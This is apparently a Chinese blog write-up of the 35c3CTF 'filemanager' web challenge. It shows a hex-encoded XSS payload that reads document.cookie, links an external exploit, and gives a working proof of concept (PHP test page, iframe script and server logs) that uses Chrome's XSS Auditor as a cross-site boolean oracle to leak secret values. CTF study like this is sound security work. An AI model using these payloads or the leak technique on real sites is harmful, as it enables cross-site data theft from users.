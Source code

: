 ```yaml
---
title: 从35c3CTF的filemanager题目中学到的一个小tips
url: 747.html
id: 747
categories:
  - hack_ctf
date: 2018-12-30 12:01:27
tags:
  - 35c3CTF
  - CTF
---
```



再一次被国际赛血虐.... 真是太菜了。回到正题上来，看一次35c3的filemanger题目。
题目应该还没有关：
<!--more-->

```
Solves: 5
Check out my web-based filemanager running at https://filemanager.appspot.com.

The admin is using it to store a flag, can you get it? You can reach the admin's chrome-headless at: nc 35.246.157.192 1
```

### 0x1 做题时的自己的想法

首先是测出来有一个xss漏洞，在search页面，search页面有段js如下：

```javascript
(()=>{
      for (let pre of document.getElementsByTagName('pre')) {
        let text = pre.innerHTML;
        let q = 'test';
        let idx = text.indexOf(q);
        pre.innerHTML = `${text.substr(0, idx)}<mark>${q}</mark>${text.substr(idx+q.length)}`;
      }
})();
```

q是搜索条件，如果搜到的文件内容跟q匹配，就会显示文件内容，并把q高亮显示出来。

![http://pic.wonderkun.cc/uploads/2018/12/WX20181230-111952@2x.png](http://pic.wonderkun.cc/uploads/2018/12/WX20181230-111952@2x.png)

这里q可以引发xss，测试方法：

1. 上传文件名xxxxx，内容为
```
\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x78\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x61\x6c\x65\x72\x74\x28\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x63\x6f\x6f\x6b\x69\x65\x29\x3b\x3e
```
其实就是编码后的`<img src=x onerror=alert(document.cookie);>`

2. 搜索

```
\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x78\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x61\x6c\x65\x72\x74\x28\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x63\x6f\x6f\x6b\x69\x65\x29\x3b\x3e
```
就会触发xss。 

但是有个利用条件，就是首先需要有一个包含

```
\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x78\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x61\x6c\x65\x72\x74\x28\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x63\x6f\x6f\x6b\x69\x65\x29\x3b\x3e
```
的文档，显然管理员是没有的。。。
所以一直在想怎么csrf去写一个。。。创建文档的页面有个XSRF头保护，没办法csrf，就陷入了僵局。

### 0x2 正解

正解在这里[https://gist.githubusercontent.com/Jinmo/1eb258fe22daab04245cabb971111495/raw/26cda4e3a3ebbda37cf1c483240cf693a2276437/exp.html](https://gist.githubusercontent.com/Jinmo/1eb258fe22daab04245cabb971111495/raw/26cda4e3a3ebbda37cf1c483240cf693a2276437/exp.html)

根本没有用到xss，就是直接获取管理员页面，搜flag，类似于bool盲注的效果，就这么暴力。这里不再详细说这个题解了，自己去品味一下吧。

如果你看完这个题解，没有感到疑惑，甚至觉得很easy，那就没必要继续往下看了。下面说的这个问题，你肯定知道。

### 0x3 关于chrome XSS Auditor的一个小知识点

先看现象，写两个测试代码：

```php
// filename:test.php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
        <?php
            
            $password = @$_GET["password"];
            if($password=='admin'){ // 这里模拟我们要猜测的值
                echo "you get it." ;
                echo "<script>let a='test';</script>";
            }else{
                echo "guess error!" ;
            }
        ?>
        
</body>
</html>
```

```html
<!--filename:poc.html -->
<style>
        iframe {
            display: none;
        }
        </style>
        <iframe id=f></iframe>
        <div id=log></div>
        <script>
            var myframes = [];
            function go(x) {
                var f = document.createElement('iframe');
                myframes.push(f);
                document.body.appendChild(f)
                var start = performance.now()
                f.onload = function() {
                    f.onload = function() {
                        console.log("second request!");
                    }
                    console.log("first request!");
                    f.src=f.src+'#';
                }
                f.src = `http://localhost:8888/test.php?password=${encodeURIComponent(x)}&<script>let%20a=%27test%27;<\/script>`;
            }
            var payload1 = 'admin';
            var payload2 = 'test';
            go(payload1);
            go(payload2);
        </script>
```

访问`poc.html`，看到如下输出：

![http://pic.wonderkun.cc/uploads/2018/12/WX20181230-113850@2x.png](http://pic.wonderkun.cc/uploads/2018/12/WX20181230-113850@2x.png)

可以看到这里只发了3次请求，按照这个代码的写法：
```javascript
f.onload = function() {
            f.onload = function() {
               console.log("second request!");
            }
            console.log("first request!");
            f.src=f.src+'#';
}
```
按照这种写法，在url后面添加一个'#'，浏览器会认为url没有被修改，是不会再重新请求一次的。那应该是2次请求，可是为啥是3次？

其实原因很明显了，因为页面内容被XSS Auditor拦截了之后，浏览器会认为页面根本没有加载成功，所以在url后面添加一个'#'后，浏览器会再去加载一次。

看一下服务端的请求日志：

```
[Sun Dec 30 11:38:28 2018] ::1:54705 [200]: /test.php?password=admin&%3Cscript%3Elet%20a=%27test%27;%3C/script%3E
[Sun Dec 30 11:38:28 2018] ::1:54706 [200]: /test.php?password=test&%3Cscript%3Elet%20a=%27test%27;%3C/script%3E
[Sun Dec 30 11:38:28 2018] ::1:54711 [200]: /test.php?password=admin&%3Cscript%3Elet%20a=%27test%27;%3C/script%3E
```

其中 `password=admin`这个请求会触发XSS Auditor。

这就给我们一个提示，我们可以把正常页面中带有的js脚本写到url中，而错误页面是没有这个脚本的，如果页面加载正常，就会触发 XSS Auditor，这时候就给我们再发一次请求的机会，从而实现数据外带，而错误页面是不会触发XSS Auditor的，所以第二次请求就不会发出，利用这种技巧在前端实现类似于bool盲注的效果。